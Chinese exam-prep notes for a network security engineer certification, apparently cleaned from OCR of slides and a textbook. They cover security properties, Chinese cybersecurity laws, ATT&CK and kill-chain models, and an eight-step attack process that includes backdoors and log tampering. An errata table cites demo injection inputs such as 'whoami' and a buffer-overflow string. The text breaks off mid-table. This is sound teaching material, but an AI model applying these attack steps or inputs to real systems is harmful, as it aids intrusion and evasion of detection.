| 6 | 833 vs 859 | LOphtCrack 特性：第一轮「**调度**、64 位 Windows 版本的哈希提取、多处理器算法以及网络监控和解码」；第二轮「**多线程高速运算**、64 位系统哈希提取、多处理器并行加速、网络流量中哈希值的监控与解码」 | 第一轮的"**调度**"疑为"**多线程/并行调度**"的简写，第二轮明确为"多线程高速运算"。两轮均保留 |
| 7 | 852 | 「Nmap（**Network Map**）」 | Nmap 常见全称为 **Network Mapper**（原文作 Network Map）。正文按原文保留 |
| 8 | 837 / 862 | 「Wireshark 使用 **WinPCAP** 作为接口」 | 现代 Windows 版 Wireshark 已改用 **Npcap**（WinPcap 已停止维护）。原文按 WinPCAP 保留 |
| 9 | 867 | SQL 注入载荷描述：「通过 **`SELECT 2*`** 制造大整数溢出错误」 | 原文表达式**不完整**（疑为 `SELECT 2*...` 一类乘法溢出构造，如 `SELECT 2*(...)`）。按原文保留 |
| 10 | 884 | 标题写「命令注入(**Command lnjection**)」 | 首字母是小写 **`l`**（L），应为 **Injection**（大写 `I`），属 OCR/排版字形混淆 |
| 11 | 884 | 命令连接符段落中插入了 `ping 127.0.0.1`、`whoami` 两行 | 这两行实为**演示用的命令**，并非连接符本身，原文排版位置易引起误解。正文已单列说明 |
| 12 | 894 / 895 | 文件上传「改进版本」代码在 `if( !move_uploaded_file( $_FILES。。。` 处**中断** | 原文到 Page 895 截止，后续代码**未提供**。正文按原文保留并加注说明 |
| 13 | 897 | 缓冲区溢出代码注释：`char origPassword[12]="Secret\0"` → 「实际占用 7 字节，含结束符」 | 计算正确（`Secret` 6 字符 + `\0` = **7 字节**）；但溢出描述处写「输入**超过 12 个字符（32 位对准）**」，而 `gets()` 风险注释写「超过 **11 字节**（不含结束符）」，两处**阈值表述不完全一致**（11 字节实际可存 11 字符 + 1 个 `\0`）。均按原文保留 |
| 14 | 897 | 攻击输入示例写 **`opensesame!!opensesame!!`**（24 字符） | 原文称其使 `userPassword[]` 和 `origPassword[]` 内容**同为 `opensesame!!`**。该结论依赖具体栈布局/内存对齐，属**示意性结论**，按原文保留 |
| 15 | 909 | 「`04. SignatureOrSystem` 签名或系统权限(**已废弃**)」 | 原文标注"自 Android 8.0 起已废弃，建议使用 **`signature\|privileged`** 替代"——此处"废弃"指 **API 级别常量 `signatureOrSystem`** 的废弃描述，教材表述按原文保留 |
| 16 | 903 | 「Android 的核心系统服务依赖于 **Linux 2.6 内核**」 | 现代 Android 早已使用更新的 **Linux LTS 内核**（4.x/5.x/6.x），"2.6"是**早期教材表述**，按原文保留 |
| 17 | 918 | 最小权限表中 **「g）网上购物：无」**、**「i）快递配送：无」**、**「k）交通票务：无」** | 与现实直觉（网购/快递常需存储、位置）**不符**，但属该草案原文规定，按原文保留 |
| 18 | 918 | 权限表述「读取电话状态权限」「获取应用账户」 | 原文为**中文描述性权限名**，未给出对应 Android 标准权限常量（如 `READ_PHONE_STATE`、`GET_ACCOUNTS`），按原文保留 |
| 19 | 913 | `<permission>` 的 `android:protectionLevel` 可选值列出 **`signatureOrSystem`** | 与 Page 910「自 Android 8.0 起已废弃」的表述**并存**，属教材前后表述差异，两处均按原文保留 |
| 20 | 876 | 登录回显示例 `Last login: Wed Sep 13 17:13:28 2026 from 192.168.10.1` | 年份 **2026** 为课件编写年份的示例输出，非错误，按原文保留 |
| 21 | 888 | XSS 示例 `header ("X-XSS-Protection: 0")` | 现代浏览器**已移除 X-XSS-Protection 支持**（应改用 **CSP**），原文按实验用途保留 |

---

> **整理说明**：本文件覆盖原文 **Page 828 — Page 919** 的全部内容，共 **3 讲**、**18 个编号小节**（含 02-B 命令注入/代码执行区别联系）、**约 90 个知识点条目**。所有页眉页脚广告文字（"至强老师信息安全工程师精讲课程""考点清晰、专业高效""版权所有，翻录必究""最新多机构网课联系微信""SUMMER课堂""至立学院"等）已去除，未删除任何知识点。


---

## 📗 二、《网络信息安全工程师教程》官方教材精要（OCR） · 第 1 部分

### 《网络信息安全工程师教程》OCR 原文整理（Part 01）

> 来源：`网络信息安全工程师教程.pdf`（扫描版 OCR，687 页，DPI 300，chi_sim+eng）
> 覆盖范围：原书 **第 1 页 ~ 第 193 页**，即 **第 1 章 ~ 第 7 章（第 7 章未完）**
> 整理原则：**完整保留每一个知识点**，仅剔除页眉页脚水印广告（SUMMER 课堂等）与纯乱码；OCR 错别字按语义修正，全部修正点见文末「⚠️ 疑点与 OCR 修正」。

---

#### 第 1 章 网络信息安全概述

##### 1.1 网络信息安全基本概念

###### 🧭 信息社会的主要特征

| 项目 | 要点 |
| --- | --- |
| 信息社会三大特征 | **数字化**、**网络化**、**智能化** |
| 网络空间定位 | 网络空间成为继国家**陆、海、空、天**之后的**第五疆域** |

> [!IMPORTANT]
> 必背：第五疆域 = 陆、海、空、天 + **网络空间**。

###### 🧭 网络信息安全（狭义 / 广义）

| 项目 | 要点 |
| --- | --- |
| 狭义的网络信息安全 | 网络信息系统**组成要素**符合安全属性，即 **机密性、完整性、可用性、抗抵赖性、可控性** |
| 广义的网络信息安全 | 涉及**国家安全、城市安全、经济安全、社会安全、生产安全、人身安全**在内的大安全 |

###### 🧭 网络安全三大发展趋势

| 项目 | 要点 |
| --- | --- |
| 对象内容 | 保证内容从**单维度向多维度**转变，保障的维度包含 **网络空间域、物理空间域、社会空间域** |
| 理念方法 | 网络信息安全保障措施从**单一性（技术）**向**综合性（技术 + 管理 + 法律 + 政策 + 教育 + 产业等）**转变 |
| 持续时间 | 保证时间维度要求涵盖网络系统的**整个生命周期**；响应速度要求不断缩短；**网络信息安全没有战时、平时之分** |

###### 🧭 网络安全 12 大问题

1. 网络强依赖性及网络安全关联风险凸显；
2. 网络信息产品供应链与安全质量风险；
3. 网络信息产品技术同质性与技术**滥用**风险；
4. 网络安全建设与管理**发展**不平衡、不充分风险；
5. 网络数据安全风险；
6. 高级持续威胁风险；
7. 恶意代码风险；
8. 软件代码和安全漏洞风险；
9. 人员的网络安全意识风险；
10. 网络信息技术复杂性和**运维**安全风险；
11. 网络地下黑产经济风险；
12. 网络间谍与网络战风险。

> [!TIP]
> 口诀记忆（12 大问题分类）：依赖→供应链→同质化→建设不平衡→数据→APT→恶意代码→漏洞→人→运维复杂性→黑产→间谍战。

---

##### 1.2 网络信息安全基本属性（CIA 特性是重点）

###### 🧭 五大基本属性（CIA + 抗抵赖 + 可控）

| 属性 | 定义 | 攻击与防范 |
| --- | --- | --- |
| **机密性**（Confidentiality） | 指网络信息不泄露给非授权的用户、实体或程序，能够防止非授权者获取信息 | 窃听 / 加密 |
| **完整性**（Integrity） | 指网络信息或系统未经授权不能进行更改的特性 | **修改 → HASH / 签名** |
| **可用性**（Availability） | 指合法许可的用户能够及时获取网络信息或服务的特性 | 拒绝服务 / 冗余灾备 |
| **抗抵赖性**（Non-Repudiation） | 防止网络信息系统相关用户否认其活动行为的特性 | 数字签名 |
| **可控性** | 信息系统责任主体对其具有**管理、支配**能力的属性，能够根据授权规则对系统进行有效掌握和控制，管理者有效控制系统的行为和信息的使用，符合系统运行目标 | 访问控制 / 审计 |

> [!IMPORTANT]
> **CIA 三要素 = 机密性（Confidentiality）、完整性（Integrity）、可用性（Availability）**。教材在 CIA 基础上再加**抗抵赖性、可控性**共五个基本属性。

###### 🧭 其他（扩展）安全属性

| 属性 | 定义 |
| --- | --- |
| **真实性** | 是指网络空间信息与实际物理空间、社会空间的**客观事实保持一致性** |
| **时效性** | 是指网络空间信息、服务及系统能够满足**时间约束**要求 |
| **合规性** | 是指网络信息、服务及系统符合**法律法规政策、标准规范**等要求 |
| **公平性** | 是指网络信息系统相关主体处于**同等地位**处理相关任务，任何一方不占据优势的特性要求 |
| **可靠性** | 是指网络信息系统在**规定条件及时间**下，能够有效完成预定的系统功能的特性 |
| **可生存性** | 是指网络信息系统在**安全受损**的情形下，提供**最小化、必要的服务功能**，能够支撑业务继续运行的安全特性 |
| **隐私性** | 是指有关个人的**敏感信息不对外公开**的安全属性 |

```mermaid
graph LR
    A["网络信息安全基本属性"] --> B["CIA 核心三要素"]
    A --> C["扩展属性"]
    B --> B1["机密性 Confidentiality"]
    B --> B2["完整性 Integrity"]
    B --> B3["可用性 Availability"]
    A --> D["抗抵赖性 Non-Repudiation"]
    A --> E["可控性"]
    C --> C1["真实性"]
    C --> C2["时效性"]
    C --> C3["合规性"]
    C --> C4["公平性"]
    C --> C5["可靠性"]
    C --> C6["可生存性"]
    C --> C7["隐私性"]
```

---

##### 1.3 网络信息安全的目标与功能

###### 🧭 网络信息安全目标

| 项目 | 要点 |
| --- | --- |
| 宏观目标 | 网络信息系统满足**国家安全需求**特性，符合国家法律法规政策要求，如**网络主权、网络合规**等 |
| 微观目标 | 网络信息系统的**具体安全要求** |
| 具体目标 | ① 保证网络信息及相关信息系统**免受网络安全威胁**；② 相关保护对象**满足网络安全基本属性要求**；③ 用户网络行为**符合国家法律法规要求**；④ 网络信息系统能够**支撑业务安全持续运营**；⑤ **数据安全**得到有效保护 |

###### 🧭 网络信息安全基本功能

要实现网络信息安全基本目标，网络应具备**防御、监测、应急和恢复**等基本功能。

| 安全功能 | 内容 |
| --- | --- |
| **防御** | 采取各种手段和措施，使得网络系统具备**阻止、抵御**各种已知网络安全威胁的功能 |
| **监测** | 采取各种手段和措施，**检测、发现**各种**已知或未知**的网络安全威胁的功能 |
| **应急** | 采取各种手段和措施，针对网络系统中的**突发事件**，具备**及时响应和处置**网络攻击的功能 |
| **恢复** | 采取各种手段和措施，针对**已经发生**的网络灾害事件，具备**恢复网络系统运行**的功能 |

> [!TIP]
> 四大基本功能口诀：**防、监、急、恢**（防御 → 监测 → 应急 → 恢复）。
> 注意区分：防御针对**已知**威胁；监测针对**已知或未知**威胁。

```mermaid
graph LR
    A["网络安全威胁"] --> B["防御：阻止/抵御 已知威胁"]
    B --> C["监测：检测/发现 已知或未知威胁"]
    C --> D["应急：及时响应和处置攻击"]
    D --> E["恢复：恢复网络系统运行"]
```

---

##### 1.4 网络信息安全技术需求

###### 🧭 九大技术需求

| 技术需求 | 内容 |
| --- | --- |
| **物理环境安全** | 包括**环境、设备和记录介质**在内的所有支持网络系统运行的**硬件**的总体安全，是网络系统安全、可靠、不间断运行的基本保证。物理安全需求主要包括**环境安全、设备安全、存储介质安全** |
| **认证** | 实现网络资源**访问控制的前提和依据**，是有效保护网络管理对象的重要技术方法。网络认证的作用是**标识鉴别网络资源访问者的身份的真实性**，防止用户假冒身份访问网络资源 |
| **访问控制** | 有效保护网络管理对象，使其免受威胁的关键技术方法。目标主要有两个：**(1) 限制非法用户获取或使用网络资源；(2) 防止合法用户滥用权限，越权访问网络资源** |
| **网络安全保密** | 防止**非授权的用户**访问网上信息或网络设备 |
| **漏洞扫描** | 网络系统中需配备弱点或漏洞扫描系统，用以监测网络中是否存在安全漏洞，以便网络安全管理员根据漏洞检测报告，制定合适的漏洞管理方法 |
| **恶意代码防护** | 恶意代码可以通过**网上文件下载、电子邮件、网页、文件共享**等传播方式进入个人计算机或服务器。防范恶意代码是网络系统必不可少的安全需求 |
| **内容安全** | 指相关网络信息系统承载的信息及数据**符合法律法规**要求，防止**不良信息及垃圾信息**传播。主要技术有**垃圾邮件过滤、IP 地址 / URL 过滤、自然语言分析处理**等 |
| **安全监测与预警** | 网络安全监测的作用在于**发现综合网系统入侵活动**和**检查安全保护措施的有效性**，以便及时报警给网络安全管理员，对入侵者采取有效措施，阻止危害扩散并调整安全策略 |
| **应急响应** | 网络信息安全事件**不可避免地会发生**，必须采取一些措施来保证在出现意外的情况下，恢复网络系统的正常运转。同时，对于网络攻击行为进行**电子取证**，打击网络犯罪活动 |

> [!WARNING]
> 易错：访问控制的两大目标经常考——**限制非法用户** + **防止合法用户越权**。第二个目标容易被漏掉。

---

##### 1.5 网络信息安全管理

###### 🧭 安全管理概览

| 安全管理 | 内容 |
| --- | --- |
| 定义 | 安全管理是指对**网络资产**采取合适的安全措施，以确保网络资产的**可用性、完整性、可控性和抗抵赖性**等 |
| 管理对象 | **物理安全、网络通信安全、操作系统安全、网络服务安全、网络操作安全**以及**人员安全** |
| 管理方法 | 主要有**风险管理、等级保护、纵深防御、层次化保护、应急响应**以及 **PDCA 方法**等 |
| 管理工具 | **SOC、IT 资产管理系统、态势感知系统、漏扫、协议分析器、上网行为管理**等 |
| 等保评测 | 通过**技术 + 管理**综合评估，保障系统安全 |
| 安全评估 | **信息安全管理体系认证（ISMS）**：通过应用风险管理来保持信息的**保密性、完整性和可用性** |
| 安全评估 | **系统安全工程能力成熟度模型（SSE-CMM）**：通过**组织过程、工程过程、项目过程**等来实现系统安全能力评估 |

###### 🧭 网络信息安全管理要素与风险控制

网络信息安全管理要素由**网络管理对象、网络威胁、网络脆弱性、网络风险、网络保护措施**组成。

| 安全功能 | 内容 |
| --- | --- |
| 网络威胁 | **物理安全威胁、网络通信威胁、网络服务威胁、网络管理威胁** |
| 典型威胁举例 | **拒绝服务** |
| 风险管理本质 | 网络安全管理实际上是对网络系统中**网管对象的风险进行控制** |

**风险控制六类手段：**

| 手段 | 说明与举例 |
| --- | --- |
| ① **避免风险** | 通过**物理隔离设备**将内部网和外部网分开，避免受到外部网的攻击 |
| ② **转移风险** | **购买商业保险计划**或**安全外包** |
| ③ **减少威胁** | **安装防病毒软件包**，防止病毒攻击 |
| ④ **消除脆弱点** | 给操作系统**打补丁**或**强化工作人员的安全意识** |
| ⑤ **减少威胁的影响** | 采取**多条通信线路进行备份**或**制定应急预案** |
| ⑥ **风险监测** | **定期**对网络系统中的安全状态进行**风险分析**，监测潜在的威胁行为 |

```mermaid
graph TD
    A["网络信息安全管理：风险控制"] --> B["避免风险：物理隔离内外网"]
    A --> C["转移风险：商业保险 / 安全外包"]
    A --> D["减少威胁：防病毒软件包"]
    A --> E["消除脆弱点：打补丁 / 强化安全意识"]
    A --> F["减少威胁影响：多线路备份 / 应急预案"]
    A --> G["风险监测：定期风险分析"]
```

> [!TIP]
> 六类风险控制手段记忆：**避、转、减、消、缓、测**。

###### 🧭 网络信息安全管理流程（8 步）

网络信息安全管理一般遵循如下工作流程：

1. **确定**网络信息安全管理对象；
2. **评估**网络信息安全管理对象的**价值**；
3. **识别**网络信息安全管理对象的**威胁**；
4. **识别**网络信息安全管理对象的**脆弱性**；
5. **确定**网络信息安全管理对象的**风险级别**；
6. **制定**网络信息安全**防护体系及防护措施**；
7. **实施和落实**网络信息安全管理防护措施；
8. **运行 / 维护**网络信息安全管理设备、配置。

```mermaid
graph TD
    S1["(1) 确定管理对象"] --> S2["(2) 评估对象价值"]
    S2 --> S3["(3) 识别威胁"]
    S3 --> S4["(4) 识别脆弱性"]
    S4 --> S5["(5) 确定风险级别"]
    S5 --> S6["(6) 制定防护体系与措施"]
    S6 --> S7["(7) 实施和落实防护措施"]
    S7 --> S8["(8) 运行/维护设备与配置"]
```

---

##### 1.6 网络信息安全法律与政策

###### 🧭 概述

网络信息安全法律与政策文件：涉及**国家安全、网络安全战略、网络安全保护制度、密码管理、技术产品、域名服务、数据保护、安全测评**等各个方面。

###### 🧭 重要法律法规时间表

| 法律法规 | 通过 / 施行时间 | 备注 |
| --- | --- | --- |
| 《中华人民共和国国家安全法》 | **2015 年 7 月 1 日**通过，并且**当日公布实施** | — |
| 《中华人民共和国网络安全法》 | 第十二届全国人民代表大会常务委员会第二十四次会议于 **2016 年 11 月 7 日**通过，**自 2017 年 6 月 1 日起施行** | 我国网络安全领域基础法律 |
| 《网络安全等级保护 2.0》 | **2019 年 12 月 1 日**正式实施 | 等保 2.0 |
| 《中华人民共和国密码法》 | **2020 年 1 月 1 日**起实施 | — |
| 《中华人民共和国数据安全法》 | **2021 年 9 月 1 日**正式施行 | — |
| 《中华人民共和国电子签名法》 | **2005 年 4 月 1 日**起施行 | 第 3 章提及 |

> [!IMPORTANT]
> 必背时间点：
> - 国家安全法：**2015.7.1**（通过即实施）
> - 网络安全法：**2016.11.7 通过 / 2017.6.1 施行**
> - 等保 2.0：**2019.12.1**
> - 密码法：**2020.1.1**
> - 数据安全法：**2021.9.1**

###### 🧭 《网络安全法》明确的措施要求

- 制定**内部安全管理制度和操作规程**，确定**网络安全负责人**，落实网络安全保护责任；
- 采取防范**计算机病毒和网络攻击、网络侵入**等危害网络安全行为的技术措施；
- 采取**监测、记录网络运行状态、网络安全事件**的技术措施，并按照规定**留存相关的网络日志不少于六个月**。

> [!WARNING]
> 易错：网络日志留存期限是**不少于六个月**（不是三个月、不是一年）。

---

##### 1.7 网络产品和服务安全审查办法

###### 🧭 制定依据与目的

为提高网络产品和服务的**安全可控**水平，防范网络安全风险，维护国家安全，依据《中华人民共和国国家安全法》《中华人民共和国网络安全法》等法律法规，制定了《网络产品和服务安全审查办法》。

**重点评估**采购的产品和服务可能带来的**国家安全风险**：

| 审查要点 | 内容 |
| --- | --- |
| ① | 产品和服务使用后带来的**关键信息基础设施被非法控制、遭受干扰或破坏**，以及**重要数据被窃取、泄露、损毁**的风险 |
| ② | 产品和服务**供应中断**对关键信息基础设施**业务连续性**的危害 |
| ③ | 产品和服务的安全性、开放性、透明性、**来源的多样性**，**供应渠道的可靠性**以及因为**政治、外交、贸易**等因素导致供应中断的风险 |
| ④ | 产品和服务提供者**遵守中国法律、行政法规、部门规章**情况 |
| ⑤ | 其他可能危害**关键信息基础设施安全和国家安全**的因素 |

###### 🧭 实施机构与产品目录

| 项目 | 要点 |
| --- | --- |
| 实施机构 | **中国网络安全审查技术与认证中心**（**CCRC**，原中国信息安全认证中心）是负责实施**网络安全审查和认证**的专门机构 |
| 产品目录 | 发布《**网络关键设备和网络安全专用产品目录**》，包含：**路由器、交换机、服务器、防火墙、IDS/IPS、WAF、网闸**等 |

---

##### 1.8 国家密码管理制度

###### 🧭 表 1-4 国家密码管理相关法律政策

| 序号 | 文件名称 | 发布机构 |
| --- | --- | --- |
| 1 | 《中华人民共和国密码法》 | 全国人民代表大会常务委员会 |
| 2 | 《商用密码管理条例》 | 中华人民共和国国务院 |
| 3 | 《商用密码科研管理规定》 | 国家密码管理局 |
| 4 | 《商用密码产品生产管理规定》 | 国家密码管理局 |
| 5 | 《商用密码产品销售管理规定》 | 国家密码管理局 |
| 6 | 《商用密码产品使用管理规定》 | 国家密码管理局 |
| 7 | 《境外组织和个人在华使用密码产品管理办法》 | 国家密码管理局 |
| 8 | 《信息安全等级保护商用密码技术实施要求》 | 国家密码管理局 |

> [!NOTE]
> 原表「生效时间」「法律状态」两列 OCR 未能识别，此处保留可见内容。

---

##### 1.9 网络安全等级保护

###### 🧭 等级保护五大工作

网络安全等级保护的主要工作可以概括为**定级、备案、建设整改、等级测评、运行维护**。

| 环节 | 内容 |
| --- | --- |
| **定级** | 确认定级对象、确定合适级别，通过**专家评审和主管部门审核** |
| **备案** | 按等级保护管理规定**准备备案材料**，到**当地公安机关备案和审核** |
| **建设整改** | 依据相应等级要求对当前保护对象的实际情况进行**差距分析**，针对不符合项结合行业要求对保护对象进行整改，建设符合等级要求的**安全技术和管理体系** |
| **等级测评** | **等级保护测评机构**依据相应等级要求，对定级的保护对象进行测评，并出具相应的**等级保护测评证书** |
| **运行维护** | 等级保护**运营主体**按照相应等级要求，对保护对象的安全相关事宜进行监督管理 |

```mermaid
graph LR
    A["定级"] --> B["备案"]
    B --> C["建设整改"]
    C --> D["等级测评"]
    D --> E["运行维护"]
```

> [!TIP]
> 五步口诀：**定、备、改、测、维**。

---

##### 1.10 网络信息安全部门

###### 🧭 主要机构

| 机构 | 要点 |
| --- | --- |
| **中国网络安全审查技术与认证中心（CCRC）** | 原**中国信息安全认证中心**，是负责实施**网络安全审查和认证**的专门机构 |
| **域名服务** | 域名服务是**网络基础服务**。该服务主要是指从事**域名根服务器运行和管理、顶级域名运行和管理、域名注册、域名解析**等活动。域名系统出现网络与信息安全事件时，应当在 **24 小时内**向**电信管理机构**报告。**域名是政府网站的基本组成部分和重要身份标识** |
| **国家计算机网络应急技术处理协调中心（CNCERT 或 CNCERT/CC）** | 是中国计算机网络应急处理体系中的**牵头单位**，是**国家级应急中心**。主要职责：按照「**积极预防、及时发现、快速响应、力保恢复**」的方针，开展互联网网络安全事件的**预防、发现、预警和协调处置**等工作，维护公共互联网安全，保证**关键信息基础设施**的安全运行 |

> [!IMPORTANT]
> CNCERT 方针十六字：**积极预防、及时发现、快速响应、力保恢复**。
> 域名安全事件报告时限：**24 小时内**向电信管理机构报告。

###### 🧭 网络信息安全科技信息获取来源

主要来源有：**网络安全会议、网络安全期刊、网络安全网站、网络安全术语**等。

> [!IMPORTANT]
> **网络信息安全领域四大顶级学术会议：S&P、CCS、NDSS、USENIX Security。**

---

##### 1.11 网络信息安全术语

网络信息安全术语是获取网络安全知识和技术的重要途径，常见的网络安全术语可以分成**基础技术类、风险评估技术类、防护技术类、检测技术类、响应/恢复技术类、测评技术类**。

| 类别 | 术语 |
| --- | --- |
| **基础技术类** | 加密（encryption）、解密（decryption）、非对称加密算法（asymmetric cryptographic algorithm）、公钥加密算法（public key cryptographic algorithm）、公钥（public key）等 |
| **风险评估技术类** | 拒绝服务（Denial of Service）、分布式拒绝服务（Distributed Denial of Service）、网页篡改（Website Distortion）、网页仿冒（Phishing）、网页挂马（Website Malicious Code）、域名劫持（DNS Hijack）、路由劫持（Routing Hijack）、垃圾邮件（Spam）、恶意代码（Malicious Code）、特洛伊木马（Trojan Horse）、网络蠕虫（Network Worm）、僵尸网络（BotNet）等 |
| **防护技术类** | 访问控制（Access Control）、防火墙（Firewall）、入侵防御系统（Intrusion Prevention System）等 |
| **检测技术类** | 入侵检测（Intrusion Detection）、漏洞扫描（Vulnerability Scanning）等 |
| **响应 / 恢复技术类** | 应急响应（Emergency Response）、灾难恢复（Disaster Recovery）、备份（Backup）等 |
| **测评技术类** | **黑盒测试（Black Box Testing）、白盒测试（White Box Testing）、灰盒测试（Gray Box Testing）、渗透测试（Penetration Testing）、模糊测试（Fuzz Testing）** |

```mermaid
graph TD
    T["网络安全术语分类"] --> A["基础技术类：加密/解密/非对称/公钥"]
    T --> B["风险评估技术类：DoS/DDoS/篡改/仿冒/挂马/劫持/垃圾邮件/恶意代码/木马/蠕虫/僵尸网络"]
    T --> C["防护技术类：访问控制/防火墙/IPS"]
    T --> D["检测技术类：入侵检测/漏洞扫描"]
    T --> E["响应恢复类：应急响应/灾难恢复/备份"]
    T --> F["测评技术类：黑盒/白盒/灰盒/渗透/模糊测试"]
```

---

#### 第 2 章 网络攻击原理与常用方法

本章目录结构：网络攻击基础与模型 → 网络攻击常见技术方法 → 黑客常用工具分析 → 网络攻击案例分析。

##### 2.1 网络攻击基础与模型

###### 🧭 网络攻击原理表（表 2-1）

网络攻击原理可用五个维度描述：**攻击者、攻击工具（内容）、攻击访问、攻击效果、攻击意图**。

| 攻击者 | 攻击工具 | 攻击访问 | 攻击效果 | 攻击意图 |
| --- | --- | --- | --- | --- |
| （OCR 缺失，疑为「国家」） | 用户命令 / 脚本或程序 | 本地访问 | 破坏信息 | 获取情报 |
| **恐怖主义者** | **脚本或程序** | **本地访问** | **信息泄密** | **获取情报** |
| **公司职员** | **自治主体** | **远程访问** | （OCR 缺失） | **经济利益** |
| **职业犯罪分子** | **电磁泄露** | （OCR 缺失） | **拒绝服务** | **恐怖事件** |
| （OCR 缺失，疑为「黑客」） | （OCR 缺失） | （OCR 缺失） | （OCR 缺失） | **报复** |

> [!WARNING]
> 该表 OCR 严重失真，可辨认词为：攻击者维度含**恐怖主义者、公司职员、职业犯罪分子**；工具维度含**脚本或程序、自治主体、电磁泄露**；访问维度含**本地访问、远程访问**；效果维度含**破坏信息、信息泄密、拒绝服务**；意图维度含**获取情报、经济利益、恐怖事件、报复**。缺失单元格已标注，备考时以「五维度 + 四个意图」记忆即可。

```mermaid
graph LR
    A["攻击者"] --> M["网络攻击"]
    B["攻击工具"] --> M
    C["攻击访问：本地/远程"] --> M
    D["攻击效果：破坏/泄密/DoS"] --> M
    E["攻击意图：情报/经济利益/恐怖/报复"] --> M
```

###### 🧭 网络攻击模型 —— 攻击树模型

| 项目 | 要点 |
| --- | --- |
| 起源 | 起源于**故障树分析方法**，经过扩展用 **AND-OR 形式**的**树结构**对目标对象进行网络安全威胁分析 |
| 用途 | 可以被 **Red Team** 用来进行**渗透测试**，同时也可以被 **Blue Team** 用来研究**防御机制** |
| **优点** | ① 能够采取**专家头脑风暴法**，并且将这些意见融合到攻击树中去；② 能够进行**费效分析**或者**概率分析**；③ 能够建模**非常复杂的攻击场景** |
| **缺点** | ① 由于树结构的内在限制，攻击树**不能用来建模多重常识攻击、时间依赖及访问控制**等场景；② **不能用来建模循环事件**；③ 对于现实中的**大规模网络**，攻击树方法处理起来将会特别复杂 |

```mermaid
graph TD
    Root["攻击目标（根节点）"] --> OR["OR：任一子目标达成即可"]
    Root --> AND["AND：所有子目标均需达成"]
    OR --> A1["子目标 1"]
    OR --> A2["子目标 2"]
    AND --> B1["子目标 3"]
    AND --> B2["子目标 4"]
```

###### 🧭 网络攻击模型 —— MITRE ATT&CK 模型

| 项目 | 要点 |
| --- | --- |
| 定义 | 根据**真实观察到的网络攻击数据**提炼形成的**攻击矩阵模型** |
| 抽象层次 | 该模型把攻击活动抽象为 **12 个战术阶段**：**初始访问、执行、持久化、特权提升、躲避防御、凭据访问、发现、横向移动、收集、指挥和控制、外泄、影响**，然后给出攻击活动的具体实现方式 |
| 主要应用场景 | **网络红蓝对抗模拟、网络安全渗透测试、网络防御差距评估、网络威胁情报收集**等 |

```mermaid
graph LR
    A["初始访问"] --> B["执行"]
    B --> C["持久化"]
    C --> D["特权提升"]
    D --> E["躲避防御"]
    E --> F["凭据访问"]
    F --> G["发现"]
    G --> H["横向移动"]
    H --> I["收集"]
    I --> J["指挥和控制"]
    J --> K["外泄"]
    K --> L["影响"]
```

###### 🧭 网络杀伤链（Kill Chain）模型

| 项目 | 要点 |
| --- | --- |
| 阶段数 | **七个阶段** |
| 七阶段 | **目标侦察 → 武器构造 → 载荷投送 → 漏洞利用 → 安装植入 → 指挥和控制 → 目标行动** |

> [!TIP]
> 网络杀伤链七阶段口诀（教材标注【七伤剑】）：**侦、构、投、漏、装、控、动**。

```mermaid
graph LR
    A["目标侦察"] --> B["武器构造"]
    B --> C["载荷投送"]
    C --> D["漏洞利用"]
    D --> E["安装植入"]
    E --> F["指挥和控制"]
    F --> G["目标行动"]
```

###### 🧭 网络攻击发展趋势

| 趋势 | 说明 |
| --- | --- |
| 网络攻击**智能化、自动化** | — |
| 网络攻击者**群体普适化** | — |
| 网络攻击**目标多样化和隐蔽性** | — |
| 网络攻击**计算资源获取方便** | 如 **DDoS / 利用云计算进行口令破解** |
| 网络攻击**活动持续化强** | 如 **APT 攻击** |
| 网络攻击**速度加快** | — |
| 网络攻击**影响扩大** | — |
| 网络攻击**主体组织化** | — |

###### 🧭 网络攻击一般过程（8 步曲）

| 步骤 | 内容 |
| --- | --- |
| **(1) 隐藏攻击源** | 利用**被侵入的主机作为跳板**；**免费代理网关**；**伪造 IP 地址**；**假冒用户账号** |
| **(2) 收集攻击目标信息** | 收集目标系统**一般信息、配置信息、安全漏洞信息、安全措施信息、用户信息** |
| **(3) 挖掘漏洞信息** | **系统或应用服务软件漏洞**、**主机信任关系漏洞**、**目标网络的使用者漏洞**、**通信协议漏洞**、**网络业务系统漏洞** |
| **(4) 获取目标访问权限** | 获得**系统管理员的口令**；利用系统管理上的漏洞，让系统管理员运行一些**特洛伊木马** |
| **(5) 隐蔽攻击行为** | **连接隐藏**、**进程隐藏**、**文件隐蔽** |
| **(6) 实施攻击** | 攻击其他**被信任的主机和网络**、**修改或删除重要数据**、**窃听敏感数据**、**停止网络服务**、**下载敏感数据**、**删除数据账套（记录）**、**修改数据记录** |
| **(7) 开辟后门** | **放宽文件许可权**；**重新开放不安全的服务**；**修改系统的配置**；**替换系统本身的共享库文件**；**修改系统的源代码**，安装各种**特洛伊木马**；安装**嗅探器**；**建立隐蔽信道** |
| **(8) 清除攻击痕迹** | **篡改日志文件中的审计信息**；**改变系统时间**造成日志文件数据紊乱以迷惑系统管理员；**删除或停止审计服务进程**，**干扰入侵检测系统的正常运行**，**修改完整性检测标签** |

```mermaid
graph TD
    S1["(1) 隐藏攻击源"] --> S2["(2) 收集攻击目标信息"]
    S2 --> S3["(3) 挖掘漏洞信息"]
    S3 --> S4["(4) 获取目标访问权限"]
    S4 --> S5["(5) 隐蔽攻击行为"]
    S5 --> S6["(6) 实施攻击"]
    S6 --> S7["(7) 开辟后门"]
    S7 --> S8["(8) 清除攻击痕迹"]
```

> [!WARNING]
> 易错：原稿步骤编号 OCR 出现「(8) 实施攻击」，按上下文应为 **(6) 实施攻击**；「后站」应为 **后门**。

---

##### 2.2 网络攻击常见技术方法（14 种）

14 种方法清单：

| 序号 | 方法 | 序号 | 方法 |
| --- | --- | --- | --- |
| 1 | **端口扫描** | 8 | **SQL 注入** |
| 2 | **口令破解** | 9 | **社交工程** |
| 3 | **缓冲区溢出** | 10 | **电子监听** |
| 4 | **恶意代码** | 11 | **会话劫持** |
| 5 | **拒绝服务** | 12 | **漏洞扫描** |
| 6 | **网络钓鱼** | 13 | **代理技术** |
| 7 | **网络窃听** | 14 | **数据加密** |

```mermaid
graph TD
    M["网络攻击常见技术方法（14 种）"] --> A["1 端口扫描"]
    M --> B["2 口令破解"]
    M --> C["3 缓冲区溢出"]
    M --> D["4 恶意代码"]
    M --> E["5 拒绝服务"]
    M --> F["6 网络钓鱼"]
    M --> G["7 网络窃听"]
    M --> H["8 SQL 注入"]
    M --> I["9 社交工程"]
    M --> J["10 电子监听"]
    M --> K["11 会话劫持"]
    M --> L["12 漏洞扫描"]
    M --> N["13 代理技术"]
    M --> O["14 数据加密"]
```

###### 🧭 预备知识：TCP 三次握手建立连接

| 阶段 | 内容 |
